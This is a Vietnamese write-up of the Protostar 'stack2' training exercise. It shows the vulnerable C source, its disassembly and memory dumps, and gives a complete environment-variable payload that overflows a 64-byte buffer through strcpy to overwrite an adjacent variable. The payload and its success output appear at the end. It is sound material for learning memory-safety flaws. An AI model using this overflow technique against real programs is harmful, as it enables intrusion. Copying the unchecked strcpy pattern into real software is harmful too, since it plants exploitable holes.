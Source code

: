 ```yaml
---
layout: post
title: stack2
---
```

stack2 cũng tương tự như stack0 và stack1.
Trong bài này, chúng ta tiếp tục sử dụng phương thức lưu đè vùng bộ nhớ của biến khác bằng hàm `strcpy`.
Source code của stack2 như sau:
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

Khi disassemble hàm `main`, ta được đoạn chương trình sau:
```asm
0x08048494 <main+0>:    push   ebp
0x08048495 <main+1>:    mov    ebp,esp
0x08048497 <main+3>:    and    esp,0xfffffff0
0x0804849a <main+6>:    sub    esp,0x60
0x0804849d <main+9>:    mov    DWORD PTR [esp],0x80485e0
0x080484a4 <main+16>:   call   0x804837c <getenv@plt>
0x080484a9 <main+21>:   mov    DWORD PTR [esp+0x5c],eax
0x080484ad <main+25>:   cmp    DWORD PTR [esp+0x5c],0x0
0x080484b2 <main+30>:   jne    0x80484c8 <main+52>
0x080484b4 <main+32>:   mov    DWORD PTR [esp+0x4],0x80485e8
0x080484bc <main+40>:   mov    DWORD PTR [esp],0x1
0x080484c3 <main+47>:   call   0x80483bc <errx@plt>
0x080484c8 <main+52>:   mov    DWORD PTR [esp+0x58],0x0
0x080484d0 <main+60>:   mov    eax,DWORD PTR [esp+0x5c]
0x080484d4 <main+64>:   mov    DWORD PTR [esp+0x4],eax
0x080484d8 <main+68>:   lea    eax,[esp+0x18]
0x080484dc <main+72>:   mov    DWORD PTR [esp],eax
0x080484df <main+75>:   call   0x804839c <strcpy@plt>
0x080484e4 <main+80>:   mov    eax,DWORD PTR [esp+0x58]
0x080484e8 <main+84>:   cmp    eax,0xd0a0d0a
0x080484ed <main+89>:   jne    0x80484fd <main+105>
0x080484ef <main+91>:   mov    DWORD PTR [esp],0x8048618
0x080484f6 <main+98>:   call   0x80483cc <puts@plt>
0x080484fb <main+103>:  jmp    0x8048512 <main+126>
0x080484fd <main+105>:  mov    edx,DWORD PTR [esp+0x58]
0x08048501 <main+109>:  mov    eax,0x8048641
0x08048506 <main+114>:  mov    DWORD PTR [esp+0x4],edx
0x0804850a <main+118>:  mov    DWORD PTR [esp],eax
0x0804850d <main+121>:  call   0x80483ac <printf@plt>
0x08048512 <main+126>:  leave
0x08048513 <main+127>:  ret
```

Biến `variable` lấy giá trị của environment variable có tên `"GREENIE"`.
Sau đó, giá trị này được copy sang cho `buffer` qua hàm `strcpy`.
Rõ ràng, tương tự như 2 bài trước, nếu giá trị của `variable` lớn hơn 64 byte thì khi copy sang `buffer` sẽ bị tràn sang vùng nhớ của biến khác.
Cụ thể, biến `modified` chiếm 4 byte, bắt đầu từ `esp + 0x58`, còn biến `buffer` chiếm 64 byte bộ nhớ từ `esp + 0x18` đến `esp + 0x57`.
`variable` được lưu bắt đầu từ địa chỉ `esp + 0x5c`. Lưu ý, `variable` có dạng pointer, nên giá trị dùng để copy sang `buffer` thật sự nằm ở vùng nhớ có địa chỉ lưu trong `variable`.

Để dễ tưởng tượng, sau đây là 96 byte bộ nhớ bắt đầu từ địa chỉ `esp`, trước khi `variable` nhận giá trị từ environment variable.
Trong ví dụ này, environment variable có giá trị là `"hello"`, tương đương với chuỗi byte `0x68` `0x65` `0x6c` `0x6c` `0x6f`.
Phân biệt theo màu: <span style="color:aqua">buffer</span>, <span style="color:orangered">modified</span>, và <span style="color:yellow">variable</span>.
<pre class="memory">
0xbffff730:     0x080485e0      0x00000001      0xb7fff8f8      0xb7f0186e
0xbffff740:     0xb7fd7ff4      0xb7ec6165      <span style="color:aqua">0xbffff758</span>      <span style="color:aqua">0xb7eada75</span>
0xbffff750:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08049748</span>      <span style="color:aqua">0xbffff768</span>      <span style="color:aqua">0x08048358</span>
0xbffff760:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x08049748</span>      <span style="color:aqua">0xbffff798</span>      <span style="color:aqua">0x08048549</span>
0xbffff770:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048530</span>      <span style="color:aqua">0xbffff798</span>
0xbffff780:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:orangered">0x00000000</span>      <span style="color:yellow">0xbffff9ec</span>
...
<span style="color:yellow">0xbffff9ec</span>:      "hello"
</pre>

<pre class="memory">
0xbffff730:     0xbffff748      0xbffff9ec      0xb7fff8f8      0xb7f0186e
0xbffff740:     0xb7fd7ff4      0xb7ec6165      <span style="color:aqua">0x6c6c6568</span>      <span style="color:aqua">0xb7ea006f</span>
0xbffff750:     <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08049748</span>      <span style="color:aqua">0xbffff768</span>      <span style="color:aqua">0x08048358</span>
0xbffff760:     <span style="color:aqua">0xb7ff1040</span>      <span style="color:aqua">0x08049748</span>      <span style="color:aqua">0xbffff798</span>      <span style="color:aqua">0x08048549</span>
0xbffff770:     <span style="color:aqua">0xb7fd8304</span>      <span style="color:aqua">0xb7fd7ff4</span>      <span style="color:aqua">0x08048530</span>      <span style="color:aqua">0xbffff798</span>
0xbffff780:     <span style="color:aqua">0xb7ec6365</span>      <span style="color:aqua">0xb7ff1040</span>      <span style="color:orangered">0x00000000</span>      <span style="color:yellow">0xbffff9ec</span>
...
<span style="color:yellow">0xbffff9ec</span>:     0x6c6c6568      0x4f4c006f      0x4d414e47      0x73753d45
</pre>

Để exploit được chương trình, ta sẽ gán 68 byte giá trị cho environment variable `"GREENIE"` là `"AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888\x0a\x0d\x0a\x0d"`.
Giá trị của `modified` sẽ được sửa thành `0x0d0a0d0a`.
Sau đây là bộ nhớ sau `strcpy`.
(`esp` có thể thay đổi tùy theo environment variable `"GREENIE"` thay đổi, nhưng các offset từ `esp` để tìm ra đúng biến thì giữ nguyên.)

<pre class="memory">
0xbffff6f0:     0xbffff708      0xbffff9ad      0xb7fff8f8      0xb7f0186e
0xbffff700:     0xb7fd7ff4      0xb7ec6165      <span style="color:aqua">0x41414141</span>      <span style="color:aqua">0x42424242</span>
0xbffff710:     <span style="color:aqua">0x43434343</span>      <span style="color:aqua">0x44444444</span>      <span style="color:aqua">0x45454545</span>      <span style="color:aqua">0x46464646</span>
0xbffff720:     <span style="color:aqua">0x47474747</span>      <span style="color:aqua">0x48484848</span>      <span style="color:aqua">0x31313131</span>      <span style="color:aqua">0x32323232</span>
0xbffff730:     <span style="color:aqua">0x33333333</span>      <span style="color:aqua">0x34343434</span>      <span style="color:aqua">0x35353535</span>      <span style="color:aqua">0x36363636</span>
0xbffff740:     <span style="color:aqua">0x37373737</span>      <span style="color:aqua">0x38383838</span>      <span style="color:orangered">0x0d0a0d0a</span>      <span style="color:yellow">0xbffff9</span>00
...
<span style="color:yellow">0xbffff9ad</span>:      "AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888\n\r\n\r"
</pre>

Cũng lưu ý thêm, biến `variable` có 1 byte đầu tiên bị ảnh hưởng do chuỗi nhập vào là kiểu null-terminated.
Giá trị mong đợi của nó là `0xbffff9ad`, thay vì `0xbffff900`.

## Ref
```bash
user@protostar:~$ export GREENIE=$'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHH11112222333344445555666677778888\x0a\x0d\x0a\x0d'
user@protostar:~$ stack2
you have correctly modified the variable
```
